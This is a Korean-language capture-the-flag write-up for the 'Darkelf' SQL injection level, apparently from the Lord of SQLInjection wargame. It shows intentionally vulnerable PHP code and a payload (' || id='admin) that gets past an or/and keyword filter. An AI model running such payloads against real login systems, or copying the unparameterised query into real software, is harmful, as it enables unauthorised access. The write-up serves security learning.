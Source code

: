 # **Darkelf**
## 1. 문제의도
or 과 and 없이 인젝션을 할 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect();  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~"); 
      
      if(preg_match('/or|and/i', $_GET[pw]))
        exit("HeHe"); 
        
      $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>"; 
      
      if($result['id'] == 'admin')
        solve("darkelf"); 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 or 과 and를 사용할 수 없다는 점입니다.

    prob | _ | . | () | or | and

### 2. query

    select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'

접근 할 수 있는 부분 : pw GET parameter

### 3. if($result['id'] == 'admin') solve("darkelf");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution
우리가 현재 놓인 상황은 계속 사용해 오던 or 와 and를 사용할 수 없다는 것이다.

### 1. || 와 && 사용
우리는 or 과 and 대신 C에서 프로그래밍을 할 때처럼 || 그리고 &&로 대신하여 사용할 수 있다.  
|| 는 Oracle 에서는 CONCAT 과 같이 사용되는 것 같기도 하다.

    pw="password" and id="admin" 과 pw="password"&&id="admin" 은 같은 맥락이다.

### My Answers :
    
    ?pw=' || id='admin
      
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**